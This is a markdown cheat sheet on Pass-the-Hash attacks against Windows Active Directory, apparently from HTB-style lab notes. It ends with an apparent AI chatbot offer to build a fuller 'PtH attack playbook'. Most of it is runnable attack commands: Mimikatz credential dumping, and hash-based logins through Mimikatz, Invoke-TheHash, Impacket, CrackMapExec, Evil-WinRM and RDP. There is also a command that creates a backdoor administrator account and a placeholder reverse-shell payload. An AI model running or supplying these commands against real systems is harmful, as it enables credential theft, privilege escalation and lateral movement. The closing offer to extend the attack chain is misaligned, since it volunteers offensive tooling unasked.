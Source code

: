 

## Concept

- Use **NTLM hashes** instead of plaintext passwords.
    
- Authenticate and execute commands across Windows systems.
    
- Useful for lateral movement within Active Directory networks.
    

---

## Pass the Hash Methods

### 1. Mimikatz (Windows)

Dump hashes:

```
mimikatz.exe privilege::debug sekurlsa::logonpasswords
mimikatz.exe privilege::debug token::elevate lsadump::sam
```

Pass-the-Hash:

```
mimikatz.exe privilege::debug sekurlsa::pth /user:david /domain:inlanefreight.htb /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /run:cmd.exe exit
```

→ Launches `cmd.exe` as target user.

---

### 2. Invoke-TheHash (Windows PowerShell)

Import:

```
Import-Module .\Invoke-TheHash.psd1
```

SMB Exec:

```
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

WMI Exec (with reverse shell):

```
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<Base64 PowerShell Payload>"
```

---

### 3. Impacket (Linux)

PsExec:

```
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Other modules:

- `impacket-wmiexec`
    
- `impacket-atexec`
    
- `impacket-smbexec`
    

---

### 4. CrackMapExec (Linux)

Authenticate:

```
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Execute command:

```
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Output `Pwn3d!` = admin access.

---

### 5. Evil-WinRM (Linux)

Open PowerShell Remoting:

```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

---

### 6. RDP (Linux, Restricted Admin Mode)

Enable Restricted Admin Mode:

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Pass-the-Hash via RDP:

```
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

---

## UAC Limitations for Local Accounts

- **LocalAccountTokenFilterPolicy = 0** → only built-in Administrator (RID-500) can do remote admin.
    
- **Set to 1** → other local admins allowed remote administration.
    
- **FilterAdministratorToken** may UAC-protect even the built-in Administrator.
    

---

Do you want me to merge this into a **PtH attack playbook** that chains: hash extraction → PtH (Mimikatz/Impacket/CME) → lateral movement?